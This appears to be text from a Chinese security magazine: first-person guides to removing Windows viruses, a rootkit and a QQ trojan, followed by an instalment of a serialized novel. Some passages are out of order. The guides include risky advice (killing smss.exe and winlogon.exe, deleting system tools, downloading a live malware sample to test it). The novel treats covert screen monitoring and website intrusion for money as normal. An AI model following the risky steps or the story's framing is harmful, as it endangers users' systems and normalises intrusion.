这学期学校终于开设了久所企盼的 C++ 课程，由于以前我自学过一点，所以就想着借着这次机会到网上查找一些资料来巩固一下。网络上牛人的一篇篇高深文章直看得我头晕眼花，不一会儿就连电脑好像也被我传染了，变得奇卡无比，甚至连网页都打不开了。不妙，看来是中招了。我在第一时间打开了任务管理器，果然发现了两个可疑的进程：ykagbri.exe 和 shbddfs.exe（图1）。

我尝试着直接结束掉这两个进程，但刚一结束，任务管理器就马上自动关闭。没办法，看来只能使用冰刃了，没想到竟然连冰刃也死了。我又尝试着打开杀毒软件，果然也死翘翘了。记得以前也曾经碰到过这种情况，病毒通常都是采用了映像劫持技术，也就是说病毒通过修改注册表  
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options  
下的键值来达到屏蔽运行一些安全或杀毒软件的目的。

打开注册表，找到上述键值，果然不出所料，注册表已经被修改了（图2）。先不急着恢复它，我们来找找病毒到底是藏在哪里的。点击注册表的“编辑”选项，选择“查找”，在查找目标栏输入病毒的名称——ykagbri.exe，然后进行查找（图3）。很快就查找出来了，原来病毒是隐藏在 C:\Program Files\Common Files\microsoft shared 这个目录下的。但当我来到该目录下时，却没有发现 Microsoft shared 这个文件夹，看来是给隐藏了。这个好解决，打开“我的电脑”，选择“工具”下的“文件夹选项”，然后切换到“查看”项，不会吧，竟然没有“隐藏受保护的操作系统文件”这一项（图4）！这种情况对于病毒来讲早已经是家常便饭了，恢复的方法也很简单，修改一下注册表就 OK 了。打开记事本，写入以下内容，然后将文件保存为 hh.reg，在注册表编辑器中使用“文件”下的“导入”，将其导入注册表就可以了。


图1


图2


图3


图4

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\SuperHidden]
"Type"="checkbox"
"Text"="@shell32.dll,-30508"
"WarningIfNotDefault"="@shell32.dll,-28964"
"HKeyRoot"=dword:80000001
"RegPath"="Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Advanced"
"ValueName"="ShowSuperHidden"
"CheckedValue"=dword:00000000
"UncheckedValue"=dword:00000001
"DefaultValue"=dword:00000000
"HelpID"="shell.hlp#51103"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\SuperHidden\Policy]
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\SuperHidden\Policy\DontShowSuperHidden]
@=""
```

现在我们再次打开“文件夹选项”，就会发现“隐藏受保护的操作系统文件”已经被恢复了（图5）。选择显示隐藏文件后，来到 C:\Program Files\Common Files 下的 Microsoft Shared 以及 System 目录，这就是病毒的老巢了（图6）。

是不是很想把它们全部删除掉？但结果却会让你很失望，因为即使删除掉，病毒也会马上重新创建。那该怎么办呢？先不要着急，跟我一步步来操作。首先清除注册表中的映像劫持内容，把  
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options  
下的项全部删除掉，然后再结束病毒进程，删除硬盘根目录下的 autorun.inf。

打开记事本，输入以下内容，将文件保存为 gg.bat，然后在 CMD 命令提示符下执行该批处理文件。我是将该文件存放在 C 盘桌面目录下的，大家在执行的时候可进行适当修改。

```bat
cd\
ntsd -c q -p 2792
ntsd -c q -p 2732
ntsd -c q -p 3888
tskill ykagbrj.exe
tskill shbdcfs.exe
tskill conime.exe
attrib -a -s -r -h autorun.inf
del autorun.inf /f
```


图5


图6

```bat
attrib -a -s -r -h autorun.inf
del autorun.inf /f /a

attrib -a -s -r -h autorun.inf
del autorun.inf /f

attrib -a -s -r -h autorun.inf
del autorun.inf /f
```


图7

接下来就到最后一步了，删除 C:\Program Files\Common Files\Microsoft Shared 下的所有文件，让病毒彻底消失！我怀着激动的心情打算将病毒文件彻底删除。可是很多时候往往就是事与愿违，这病毒就是这么捉弄人，居然不让删除（图7）。

看来一定是病毒插入了哪个进程中，因为正在使用才不让删除的。到底是哪些程序正在使用呢？我们可以使用一个功能强大的进程查看工具 ProcessExplorer，运行后终于在 winlogon.exe 进程里发现了病毒文件（图8）。

如果你的 Office 程序正在运行，那么 Office 的进程也会使用 C:\Program Files\Common Files\Microsoft Shared 下的文件。在结束此进程的时候我还碰到点小麻烦：我们都知道 WinLogon.exe 是 Windows NT 登录管理器，它用于处理系统的登录过程。该进程在系统中的作用是非常重要的，如果强行结束的话会导致电脑重启。我们需要先将 smss.exe 进程结束，然后再结束 WinLogon.exe，这样电脑就不会重启了。好了，进程已经成功结束了，我们现在可以放心大胆地删除病毒文件了。

这个顽固的流氓病毒到此就算被我们彻底消灭了。这一次痛苦的杀毒旅程，同时也是我们成长的经历。正如现在流行的那句话：这是一场游戏，也是我的人生！


图8

> （本文所涉及到的病毒文件和 Process Explorer 已收录到光盘中）

### 和我一起认识最近的流行病毒

小鱼

最近因为工作的原因，接触到了一些新种类的病毒和木马，下面我们就一起来分析一下吧。首先来看这些病毒运行后都做些什么：

- 第一种：运行后让杀毒软件无法正常工作，然后再下载或者运行其它病毒或木马，这样就能躲避查杀。比较常见的方法是映像劫持，不过这种方法使用时间也很长了，对付办法也早就有了，所以这种方法目前来说也并不一定有效。比如瑞星有自我保护功能，对瑞星是不能进行映像劫持的。
- 第二种：卸载掉杀毒软件。目前见到的有这种能力的病毒一般只会卸载瑞星和卡巴，不过按照病毒技术的发展，其它杀毒软件也最终会被加入到卸载行列。

可以了，当然一个个地去掉工作量是有一点大，我们可以重新安装瑞星来清理，这样就可以还原原来的文件了。我们再来看另外一个很火的病毒——“磁碟机”。关于该病毒的专杀工具网上有很多，但是效果都不怎么理想，原因就在于磁碟机病毒不断改进，现在已经加入驱动了，乱发 WM_CLOSE 消息、TerminateProcess，通过加载 netapi00.sys 恢复 SSDT。想打开杀毒软件、冰刃、安全工具？基本没门！它发作时不能显示隐藏文件，杀毒软件被打开后界面一闪而过，继而被关闭，连网上安全工具和系统任务管理器都不能打开。

下面来简单说一下它们卸载杀毒软件的原理，如图1。先检测被种植病毒的电脑是否安装瑞星或者卡巴，如果有就检测其安装目录。比如瑞星，找到 RAV\Update 目录下的 setup.exe，然后运行 setup.exe，模拟鼠标点击下一步，这样瑞星或者卡巴就会被自动卸载掉，最后就是下载或运行其它病毒。还有一种可能，就是卸载掉后再把杀毒软件做映像劫持，这样重装杀毒软件也没有用。


同样，先来分析一下病毒都做了些什么：释放驱动 NetApi000.sys、smss.exe、netcfg.000、netcfg.dll、lsass.exe、dnsq.dll，在每个盘里放入 autorun.inf 和 pagfile.exe，隐藏文件，还有就是启动项里随机的名字，前面是“~”开头。这些文件的完整目录可参见图2。知道病毒都做了些什么，那么就好解决了，下面我们来清理它。

准备一张 DOS 启动盘，或者使用类似矮人 DOS 工具，因为要在 DOS 下删除病毒。注意：有些病毒在启动目录里，这个目录带中文，而纯 DOS 不支持中文，需要在系统启动后再删除。可利用不启动 explorer 来达到不启动病毒的目的。启动到 DOS 后，先备份 explorer：`copy c:\windows\explorer.exe c:\`，再删除：`del c:\windows\explorer.exe`，然后 `cd c:\windows\system32\com` 切换到病毒目录。先去属性：`attrib *.* -h -s`，再依次删除：`del lsass.exe`、`del smass.exe`、`del netcfg.000`、`del netcfg.dll`。再执行：`attrib c:\windows\system32\dnsq.dll -h -s`，最后：`del c:\windows\system32\dnsq.dll`。

各位小菜跟我来看一个病毒样本，网上有人将其称为瑞星仇恨者。这个病毒运行后先删除掉瑞星，然后在每个盘生成 autorun.inf 以达到自动播放感染目的。它感染可执行文件，被感染的可执行文件（主要是 WINDOWS 或 WINNT 目录下）图标会被替换成“狮子”样式，版权信息也会被替换。该病毒并非针对安装瑞星杀毒软件的电脑，只要找到瑞星目录中的 setup.exe 代码就能触发。对付方法其实不难：关闭自动播放，在服务或组策略中处理；再根据样本分析去掉感染后新增的尾部信息即可。


把 explorer 文件给删除了。按 Ctrl+Alt+Del 调出任务管理器，在应用程序那一栏的新任务里输入 cmd，打开 CMD 命令提示符，在命令提示符下就可以输入中文了，如图4。


切换到启动目录，接着输入 `attrib *.* -h -s` 取消掉所有文件的系统和隐藏属性，然后 `del *.exe` 删除病毒启动文件，如图5、图6。这样病毒生成的东西就算是清理干净了。现在来把桌面还原，输入 `copy c:\explorer.exe c:\windows`，这样将刚才给扒的文件拷贝回去就行了，如图7。


重新启动计算机，杀毒软件和安全工具就能正常运行了。不要忘记每个盘还有自动播放的病毒。另外就是系统的隐藏文件选项不能正常工作，我们可以打开注册表编辑器，找到如下键值：  
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\SuperHidden  
找到 Type，将其值修改为 checkbox，这样在文件夹选项的“查看”中就可以选择显示隐藏的文件了，如图8、图9。


在“开始”→“运行”栏输入盘符来打开硬盘分区，而不要双击盘符来直接打开，因为那样会再次运行病毒。打开后删除里面的 autorun.inf 和病毒，最后使用杀毒软件清理被感染的文件。因为这个病毒的变种太频繁了，被感染的文件就只有靠杀毒软件来还原了。如果发现杀毒软件也不能还原被感染的文件，可以把病毒上报给你安装的杀毒软件公司，过几天你电脑上被感染的文件应该就可以还原了。


### 和病毒鏖战三步曲

#### 一、与病毒的亲密接触

同事电脑里的瑞星打不开了，怀疑是中了病毒，于是就把我这个“高手”请去了。打开 Windows 的任务管理器，很容易就发现了两个可疑的进程——qjhuosw.exe 和 iwiwoui.exe。可是当我使用任务管理器结束上面任意一个进程时，任务管理器却自动关闭了，而且冰刃和其它几个常用的进程管理工具也不能运行。

既然辅助工具不能使用，我们就用强大的命令提示符。ntsd 命令可用来结束一些常规情况下结束不了的进程。由于这两个病毒进程互相保护和监视，我只好写了个批处理文件来结束它们，在记事本中输入如下内容：

```bat
ntsd -c q -p 444
ntsd -c q -p 666
```

## 毒瘤


运行文件 vleoscg.exe 后再生成一个快照，工具自动对比两个快照生成了一个报告，如图1。可以看到病毒除了生成 qjhuosw.exe 和 iwiwoui.exe 这两个文件外，还在同目录下生成了 yqpylrr.inf 文件，在 Program Files 文件夹的根目录生成了 meex.exe，在每个盘的根目录生成了 vleoscg.exe 文件，修改系统文件 verclsid.exe 并重命名为 verclsids.exe，并且将卡巴斯基的文件 fidbox.dat 和 fidbox2.dat 也修改了。还可以看到病毒在注册表中增加了很多键值。

我们来分析一下上面这几个病毒文件。qjhuosw.exe、iwiwoui.exe、meex.exe、vleoscg.exe 这四个文件实际上是同一个文件，任何一个文件运行后都可以激活病毒。对于 fidbox.dat 和 fidbox2.dat 这两个文件，凡安装过卡巴斯基的用户都会有。为什么会有这两个文件？网上曾有好多人询问这到底是什么文件。我简单解释一下，这两个文件确实是卡巴斯基的关键系统文件。

444 和 666 为 qjhuosw.exe 和 iwiwoui.exe 两个病毒进程的 PID 号，这个可以在任务管理器中查得到。将文件另存为 ok.bat，运行 ok.bat 就可以将上面两个进程同时结束了。


病毒的进程结束后就可以删除病毒文件了，不过因为这时不能查看隐藏文件，所以还无法找到病毒文件所保存的正常位置。使用以前杂志上介绍的方法导入注册表后，也不能显示隐藏文件。我只好在“开始”-“运行”栏输入 Msconfig，打开了“系统配置实用程序”，根据“系统配置实用程序”中病毒文件的路径，在命令提示符下执行 `dir /a`（参数 a 是显示所有文件，包括隐藏和系统文件）命令进行查找。分别在 `c:\program files\common files\microsoft shared\` 和 `c:\program files\common files\system` 目录下找到了 qjhuosw.exe 和 iwiwoui.exe 文件，在每个分区的根目录下还可以找到 vleoscg.exe 和 autorun.inf 文件。使用 `attrib` 命令取消上面几个文件的系统和隐藏属性后，再使用 del 命令删除就可以了。

回到系统配置实用程序，在“启动”项中将 qjhuosw.exe 和 iwiwoui.exe 这两个病毒进程禁止随系统启动，然后运行杀毒软件对硬盘中的所有分区全面杀毒，再使用 360 安全卫士扫描清理后，就基本完成杀毒工作了。为了搞清楚病毒的工作原理，删除前我将几个病毒文件拷贝到了 U 盘中，好带回家继续研究。

#### 二、病毒详细的工作过程

回到家后在我的电脑上对 U 盘进行杀毒，瑞星提示是 Worm.Win32.AvKiller.cv 病毒，卡巴提示是 Worm.Win32.AutoRun.ast 病毒。根据瑞星的病毒资料得知此病毒是一种木马，但没有很详细的资料。为了了解病毒的工作过程，可以使用文件监视工具“Total Uninstall”来监视病毒对文件和注册表的修改。病毒运行前使用“Total Uninstall”生成一个快照，运行病毒后再对比快照。


呃？使用过卡巴的菜鸟们都知道第一次全盘扫描需要很长时间，以后再扫描时速度就会很快，就是因为卡巴使用了 iChecker 技术和 iSwift 技术的原因。fidbox.dat 和 fidbox2.dat 这两个文件就是卡巴的 iChecker 技术和 iSwift 技术的核心。这种新技术的作用就是：假如你的卡巴扫描设置（安全威胁特征库和设置）没有改变，使用这个技术可以加快扫描速度，跳过那些在上次扫描后没有改变的文件。看到这儿，各位小菜明白了没有？病毒修改 fidbox.dat 和 fidbox2.dat 这两个文件的目的，就是使卡巴扫描文件时跳过病毒可能存在的文件（文件夹），这样就可以更好地隐藏病毒自身。对于这两个在正常状态下不能复制和修改的文件，病毒居然很容易地修改了，并且卡巴也没有发现被修改而继续使用这两个文件。可见病毒制作者不仅对 Windows 进行了深入的研究，还对卡巴也进行了很细致的研究。


图4

在网上下载了无数个进程管理工具后，终于找到了一个功能强大并且没有被病毒屏蔽的工具——Wsyscheck，它具有进程管理、安全检查、注册表管理等功能。“Wsyscheck”运行后的界面如图2所示，在“进程管理”菜单中显示红色的为非微软进程，紫红色（或标注色）表示虽然是微软进程，但其模块中有非微软的文件，这个对于菜鸟们查找可疑进程带来了很大的方便。我们很容易就能够找到红色的 qjhuosw.exe 和 iwiwoui.exe 这两个可疑进程。先选中这两个进程，然后在进程上点鼠标右键，选择“结束选择的进程”，就可以将这两个病毒进程同时结束掉了。

病毒为了更好地隐藏自己，将本身设置为了系统或隐藏属性，这样反而在 Wsyscheck 软件中更清楚地暴露了自己。在 Wsyscheck 的“文件管理”中，已经将系统和隐藏文件（文件夹）标记为了红色，所以很容易找出病毒文件，如图3。为了更方便找出病毒文件，我们可以选中下方的“仅显示隐藏文件”，这样就可以将其它文件隐藏，更方便找出系统和隐藏文件了。


图5

打开 Wsyscheck 的“安全检查”菜单中的“端口状态”，可以看到我的电脑通过 qjhuosw.exe 进程已经和 IP 地址为 61.191.55.52 的服务器建立了连接，如图4。经过查询，此服务器为虚拟主机，上边有 23 个站点。另一个 IP 为 222.172.81.30，与机器狗病毒常用的连接 IP 是一样的，可见此病毒作者很可能就是机器狗病毒的制作者。在“安全检查”菜单的“活动文件”中可以看到启动时加载的各个程序，在“常规检查”的右边可以看到映像劫持的注册表，点右键选择“允许这个程序运行”就可以将被劫持的注册表删除。

由于文件监视工具“Total Uninstall”的局限性，可能有些文件并没有监视到，建议根据文件创建时间去查找其它病毒文件。推荐一个功能强大的用于查找文件的工具“File Seeker”，点击上角的“选项设置”，在弹出的窗口中选择“过滤器”，在搜索文件中设定好时间就可以查找了，查找的速度既快又准确。病毒为了隐藏自己，运行后对病毒文件的时间进行了修改，因此可以根据病毒文件的修改时间查找出病毒文件。使用同样的方法查找出你感染病毒当天所有创建的文件，再从中找出所有的病毒文件，然后删除它们即可。若发现感染病毒后及时断开网络连接，再将上述病毒文件找到并删除，最后用杀毒软件清理一下注册表，基本可以完成病毒清除工作。

后，大多数情况下病毒就不再继续下载其它的病毒文件了。此时我们的系统虽然有 qjhuosw.exe 和 iwiwoui.exe 这两个病毒进程运行，但是系统的运行速度几乎和正常一样，不像有些病毒运行后严重占用系统资源，使启动和运行速度明显变慢从而暴露自己，这就是此病毒的高明之处。但是这只是表面现象，事实上隐藏着更大的阴谋——一旦下载的 1221.exe 程序在某些条件下运行（病毒制造者有可能通过网络随时控制启动此程序），马上产生一个名为 syswfgwd2.dll 的系统属性文件，然后将这个文件插入到浏览器或其它系统进程中，开始从网上疯狂下载大量的病毒文件，访问恶意网页、盗窃游戏号、QQ 密码，最后耗尽资源使你的系统瘫痪崩溃。


图6

我猜想病毒作者更大的阴谋就是随时启动 1221.exe 程序来下载病毒，然后利用很多中毒的电脑访问某个网站以增加网站访问量或攻击某些游戏，感觉好像和网络僵尸差不多。有兴趣的朋友可以根据上面的地址下载 1221.exe 后进行测试，以验证我的猜想是否正确。另外由于病毒作者随时可以免杀 1221.exe 和更改 1221.exe 程序，然后再下载新病毒，至本文完成我测试时发现病毒又更新了，刚刚更新病毒库的卡巴居然不认识下载的病毒，直到两天后卡巴才认识了此病毒。

可以根据需要添加病毒可能运行的目录，以禁止目录内的所有程序运行，从而达到从源头上禁止病毒的目的。如果你的系统盘为 NTFS 格式，设置组策略后再利用 NTFS 权限禁止 `C:\WINDOWS\system32\GroupPolicy\Machine\Registry.pol` 文件被任何用户修改、写入和删除，就可以保护你的组策略不被修改。

#### 三、如何防止病毒入侵

这次遇到的病毒绝不是一般的病毒，因为常用的一些防毒方法好像都不起作用，甚至连我们防御病毒的最后一招 NTFS 权限也可以突破。为了安全起见，我电脑中所有的分区格式都是 NTFS，并且在每个分区都建立了 autorun.inf，然后又相应地设置了所有用户对于 autorun.inf 都没有任何操作权限，但这个病毒居然很容易地删除了我设置权限后的 autorun.inf 文件夹，然后又建立了自己的 autorun.inf 文件，甚至市面上各种 U 盘免疫软件就更不起作用了。更为可怕的是病毒再次对 U 盘进行实时监控，在中毒后的系统中，不论是格式化 U 盘还是在命令提示符下使用 format 命令格式化 U 盘后，病毒都会马上重新将自己写入到 U 盘中，使我们无法彻底消除病毒。对于防御此类恶性病毒，使用杀毒软件当然是菜鸟们的首选，因此除了正确使用杀毒软件外，还应该利用系统补丁、组策略、注册表权限等方法将病毒阻止在你的电脑外。

- 1. 尽可能使用低权限用户来登录系统

Windows 的用户权限是很安全的，只要你的系统没有漏洞，使用这种方法，病毒就不可能得到管理员权限，也就不能运行。此方法有时甚至比防毒软件效果都要好。

- 2. 利用组策略和注册表权限来阻止病毒运行

虽然 U 盘免疫程序 autorun.inf 文件夹设置权限后也可被病毒突破，但是组策略和注册表权限还没有被病毒突破。在“开始”→“运行”栏输入 gpedit.msc 来打开组策略，选择“计算机配置”→“Windows 设置”→“安全设置”→“软件限制策略”→“其它规则”，点击鼠标右键，选择“新路径规则”，在“路径”栏中输入不想运行的程序路径，在“安全级别”中设置为“不允许的”，这样就可以禁止“路径”中的程序运行了。

- 3. 删除病毒可能调用的系统文件

删除系统中的命令提示符、注册表编辑器和 cacls.exe 等文件，因为很多病毒运行时都往后台调用命令提示符，此病毒就是利用命令提示符删除了很多文件并且利用 cacls.exe 获得权限。没有了命令提示符，好多病毒将不可能运行，并且没有命令提示符也就不能利用 del 命令删除文件，这样就可以保留很多病毒文件以便于我们了解病毒和彻底清除病毒。如果我们经常使用命令提示符和注册表编辑器的话，删除后可能会给我们的使用带来很多不便，可以将这两个文件改名或存放到 Windows 或 System32 以外的其它目录，病毒就不能调用了。

- 4. 监控注册表和文件安全

安装注册表监视软件和其它安全工具，在安装杀毒软件的同时还可以安装卡卡、360 等软件，以弥补杀毒软件病毒库更新不及时的不足。另外及时更新你的系统补丁也是非常重要的，更不要忘了第三方软件的安全漏洞。

病毒发展的速度越来越快，因此大家一定要不断学习新知识。只要我们多读 X 档案，正确使用好安全工具，就一定能将病毒阻挡于电脑的大门之外。本文所碰到的病毒因为比较强大，有些地方可能了解得不太全面，文中如有不对之处还希望读者们谅解。本文主要是想给菜鸟们提供一个消灭病毒和防御病毒的思路，如有问题大家可以到 X 论坛上和我一起探讨。


### 三招彻底清除 Rootkit——Zorro

话说近日我在使用冰刃的时候突然发现找不到它的主程序 Icesword.exe 了，这立刻引起了我的警觉。直觉告诉我，这很有可能是病毒在作怪。可能是病毒害怕功能强大的安全工具冰刃，所以先下手为强了。我从别处拷贝了 Icesword.exe 文件，复制的时候却出现了“文件已存在”的错误提示框，而且所有隐藏的文件都已经显示出来了。这变得有意思了，我猜测是可能中了内核级的 rootkit 了。下面就让我们一起来干掉它吧！

那么，到底什么是 rootkit 呢？rootkit 是能够潜伏或隐瞒、难以检测、驻留在计算机上的一组程序集和代码。rootkit 所采用的大部分技术和技巧都用于在计算机上隐藏代码和数据。例如，许多 rootkit 都可以隐藏文件和目录，在 Windows 操作系统中大都以驱动程序的形式运行，通过修改系统内核来达到潜行的目的。rootkit 与木马服务端程序有些类似，但远比木马的隐蔽性更高。

病毒既然隐藏了 Icesword.exe，我们可以试着将特别拷贝的冰刃改名为 123.exe，或者随便起一个名字，这样就可以顺利地打开冰刃了。先来看看冰刃目录下的文件，如图1，除了新改名的 123.exe，还有一个原来的文件 Icesword.exe，它被 rootkit 隐藏了。骗过了操作系统，甚至杀毒软件也无能为力。但是它却骗不过冰刃的眼睛，因为冰刃也是使用内核技术编写的，只是同样的技术被用于正邪两派而已。现在我们已经基本断定是 rootkit 所为，那么要如何找到元凶并将其清除呢？


图2


图1

点击 ssdt 来自动检测被挂钩的函数。由于我没有使用杀毒软件的习惯，所以挂钩比较少，没有干扰地就找到了这个 rootkit，位于 `C:\Windows\system32\drivers\HideFilez.sys` 的模块。果然是 hook 了 ZwQueryDirectoryFile 这个函数，选中它，点击下方的“Unhook selected”，毫不留情地将其卸载掉。然后将 `C:\Windows\system32\drivers\HideFilez.sys` 文件删除，最后还剩下启动项。打开“开始”-“运行”栏，输入 regedit，调出注册表编辑器，按 Ctrl+F 进行查找，输入 `C:\Windows\system32\drivers\HideFilez.sys`，点击查找。结果在键值 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\HideFilez` 下找到了其启动项，如图3，将其直接删除即可。


图3

大部分的 rootkit 都是基于 hook ZwQueryDirectoryFile 来隐藏文件。ZwQueryDirectoryFile 是内核函数，通过挂钩 SSDT 表来改写函数地址并指向新的函数地址，新的函数负责误导调用此函数的程序。SSDT 的全称是 System Services Descriptor Table，也就是系统服务描述符表。这个表就是一个把 ring3 的 Win32 API 和 ring0 的内核 API 联系起来的角色。主流杀毒软件的主动防御功能也都是通过这种技术实现的。知道了基本原理，我们就请出一款 rootkit 的检测工具——Rootkit UnHooker，如图2。

至此，这个 rootkit 也就清除完毕了。到冰刃目录里看看，Icesword.exe 也回来了。

## 毒宠


## 与新型QQ木马的较量

冯龙春

最近，我的电脑上发生了一系列的灵异事件：登录 QQ 突然要输入验证码，输入完验证码登录上 QQ，朋友却发信息过来问我几时跑深圳去了，我很是诧异。根本就没有去呀，原来是我的 IP 地址竟变成了深圳。一种不祥的预感笼罩在我的心头：有人使用我的 QQ 在深圳登录了。但是我没有借 QQ 的习惯，也没有使用代理，看来是中了木马了！

我怀疑中的是 DLL 型木马，但是使用以前备份的 DLL 进行比较没有发现什么异常。再使用 360 安全卫士查看系统进程，也没有发现有什么可疑的，系统进程都还是原来的那些系统进程，没有被捆绑和插入代码（图1）。我又使用金山和卡巴扫描了一下整个系统，也没有发现问题，我无奈地陷入了沉思之中。


图1

继续上网，使用完电脑后准备关机，关闭所有程序后再查看进程。咦？我不是已经关闭 QQ 了吗，怎么还有（图2）？


图2

来查看一下它正在向哪里连接，使用纯真 IP 查看，得到的是一个香港的 IP 地址。我到百度上搜索了一下，有人说是 QQ 反应慢的问题，但我观察了 2 分钟左右，这个 QQ 的进程也没有消失。最后我只好使用任务管理器终止了它，关机睡觉。想想腾讯不是在深圳的吗？深圳不是和香港离得很近吗？可能就是这个原因吧。

第二天登录 QQ 失败，提示说有错误，这个情况可是以前没有过的。我开始怀疑是不是新型的插入代码型 QQ 木马。以前是线程插入，现在它是代码直接插入，真是技术越来越厉害啊！游戏也变得越来越有趣了。

由于是进程，没办法证明它是不是原来的那个 QQ。使用 360 安全卫士查看这个 QQ，在“安全级别”栏显示的都是未知（图3）。由于 360 安全卫士数据库跟不上软件更新以及 QQ 版本过多，所以它对于 QQ 都是报告未知，连我的金山毒霸也都是报未知。


图3

难道 QQ 被捆绑了吗？使用木马辅助查看器 lint2005.cxc 查看 QQ，发现有捆绑数据的存在。我又找了一个正常的 QQ 进行检测，发现也有捆绑数据的存在（图4），读取 EXE 文件大小和计算 EXE 实际大小都是一样的，这证明附加数据是正常的。


图4

接下来该怎么办呢？既然不是捆绑数据那么就是插入代码了，难道要我反汇编才行吗？还好无巧不成书，以前我在学习逆向工程时研究过 QQ，由于怕破坏 QQ，就使用 WINRAR 打包了一个 QQ 作为备份。把那个备份的 QQ 拿出来作对比就可以看出问题了。还是检测捆绑数据，仍然正常。继续拿出 MD5Check 检测对比 MD5 数值，终于发现可疑的那个 QQ 的 MD5 值（图5）和原来那个正常的 QQ 的 MD5 值（图6）不一致！哈哈，终于发现了，我的 QQ 被插入代码的可能性非常大。


图5


图6

使用 PEiD 比较程序入口点，都是一样的（图7）。感觉木马的作者不简单，因为初学者都是在入口点处作手脚，先让程序执行木马再执行 QQ，这样很容易暴露。再看看节，节还是一样（图8），没有加区段，真是厉害，游戏越来越好玩了。


既然是要插入代码，那么学过逆向工程的人都懂得，在不影响程序正常运行的情况下，只能搜索全 0 处来写代码。我们再来看看全 0 处（图9），注意 text 节，看到没有？上面那个是有问题的 QQ，它的 text 节大小是 0000EAA，下面那个是正常的 QQ，它的大小是 0000E3A。上面那个 RVA 是 0014E156，而下面正常的这个则是 0014E1C6，看到不同之处了吧！


我们使用 OC 进行内存地址转换，对那个可疑的 QQ（图10）得到内存地址是 0054E156。打开 OD 载入进行分析，使用同样的方法分析正常的 QQ，复制粘贴 0054E156 处附近的汇编代码（图11），左边那个就是可疑的 QQ，看到跳转的地址问题了吧。因能力有限我也只能分析到这里了。至于清除的方法很简单，将那个可疑的 QQ 替换为正常的 QQ 就可以了。


（文章中涉及到的工具 360 安全卫士、木马辅助查杀器 fint2005.exe、MD5Check、PEiD 0.94、OC 偏移量转换器、OD 等，已经收录于光盘中）


### 我的失忆女友（三）

当雨薇从噩梦中醒来的时候，依然不忘调皮地说道：“我要吃话梅！你偷窥我，所以必须给我买！”

“晕，满屋子的护士和医生呢，她居然这么说！”我瞪着眼睛小声地威胁道：“死丫头别乱说，小心我把你嘴巴缝起来。”

“缝啊，要不是你偷窥我，我能激动得晕倒吗？”这小丫头越说越来劲了。这下医生和护士上演了“理直气壮见人不饶命”的传统美德，让我来了一堂道德观念的教育。

……（正文为三栏连续小说文本）……

检查之后，我和雨薇都松了一口气。虽然疼的是她，但心痛的却是我。她从床上站了起来，阳光洒满了她的全身，虽然病服有些宽大，但是依然无法掩饰她曼妙的身材和清秀美好的美貌。她眼睛里还含着泪，却对我霸道地说道：“你背我！”

我听话得像一只遇见猫的老鼠一样，乖乖弯下腰，把雨薇放在了背上。

……（后续正文）……

“雨薇脑部有一个肿瘤，但是最致命的是她有败血症，必须要换骨髓。”

我毫无准备地接受了这样的噩耗，傻傻地看着萧然，心里一遍遍地疼痛。我不知道该怎样去疼雨薇，抬起头坚定地对萧然说道：“我去和她说清真相，我想给她幸福。”

……（后续正文）……

终于可以看到她的电脑界面了，疯狂的想念如洪堤决堤般地蜂拥而至。我打开监视的软件，看到她坐在床边一动不动看着远方，一边擦着眼泪。我突然也很想哭，可是我能做什么……说出来，明知道思念无用，却还要拼命地去思念。

“你喜欢她？”电脑里萧然不合时宜地问出这句戳心的话。狗拿耗子，多管闲事。本来不想理这家伙，却偏偏那么急于倾诉地说道：“不喜欢，是爱极了！”

“那你为什么不告诉她，不和她在一起呢？难道你就这么看着幸福一点点地溜走？”萧然说的这些我都想过，但是幸福是需要代价的，要么是雨薇短暂的生命，要么就是六十万，前者我不会悔，后者我却拿不出来。

失败的心情让我几乎无法停留在任何人的面前，我关掉电脑躺在床上开始睡觉，却偏偏每次梦里都会出现雨薇的身影。我不知道当初自己沉默的离开，是让自己爆发，还是死亡。只是希望雨薇可以慢些痛，我以为自己的消失对于大家来说是一种解脱，但我却看到大大小小的网站和论坛上都写满了那些让人心痛的语言。

“曾经我们一起走过三年的青春，虽然也曾经犯过错，可若干年后，我们依然双手紧握。无论你在哪里，请记住我的话，我不想错过你和那份值得珍惜的爱！”

我看着那些论坛、那些网站上留下的雨薇炙热的话语，心里的疼痛加剧。可是我用什么来爱她呢？我一遍遍地思考，一遍遍地给自己寻找一份答案，但是却没有找到。

电脑上萧然又不合时宜地出来了：“这个女人，是不是那天吃话梅的那个人啊，你怎么能这么冰冷，对待自己爱得要命的女人呢？”

“论技术我可能不如你，但是感情的事情你不要教我怎么做。”我有些愤怒，大家都看到雨薇的深情，却没有看到我的痛苦。此刻的我像是被人冤枉的孩子一样委屈。

“我看得到你每天都把自己沉浸在入侵和 VC、VB 里，但是爱和技术是不一样的，需要用心才会快乐，难道你想一辈子都这样？她不快乐，你也不幸福？”不知道从什么时候起，她这么关心起我的生活来。但我却无心理会。

我依然沉默着，没有尝试过太早，不逛街，不开手机，也不去论坛发泄心情什么的。但是萧然还是在那个雨后的下午敲开了我的房门。我愣愣地看着站在门外消瘦的萧然，望了望他空荡荡的身后，心里一阵温热和失落的情绪在心里纠缠。

萧然淡淡地一笑：“让我进去坐坐吧！”我淡淡地笑了笑，把萧然让进了我的猪窝。萧然刚刚坐下，就闭上眼睛倒在了床上。我从来没见过他这么疲惫，这么孱弱。我小心翼翼地问道：“萧然，你怎么了？”

萧然惨淡地一笑，说道：“你能想象到吗？我破产了，几乎一夜之间。”

我的心猛然间抽搐了起来，这意味着什么，意味着我的好友一无所有了，也意味着雨薇会陷入绝望。我紧张地坐在他的旁边问道：“怎么会这样？那么六十万能凑出来吗？”

萧然苦笑道：“人算不如天算，不要说六十万，现在我连六万都没有了。”

我颓然地坐在地上，所有的希望都在瞬间破灭。萧然拍了拍我的肩头说道：“别这样，我会有办法的。我入侵几家网站，钱自然有的。只是我的技术确实有些局限，还有她的病千万不要让她知道，不然我怕她会消失，死在哪里我们都找不到。”

